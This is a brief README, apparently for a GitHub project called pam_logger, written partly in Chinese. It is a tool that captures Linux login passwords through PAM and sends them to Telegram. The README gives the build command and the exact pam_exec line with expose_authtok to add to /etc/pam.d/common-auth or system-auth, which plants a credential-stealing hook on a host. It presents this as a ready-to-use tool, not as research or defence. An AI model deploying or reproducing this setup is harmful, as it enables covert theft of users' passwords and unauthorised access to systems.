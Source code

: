 # pam_logger
log pam password and send in telegram
###
go build main.go
###
添加額外執行logger

ubuntu添加在/etc/pam.d/common-auth

centos 添加在/etc/pam.d/system-auth

auth optional pam_exec.so quiet expose_authtok /lib/security/pam_logger

###
然後將編譯好的main 改名放置到/lib/security/pam_logger
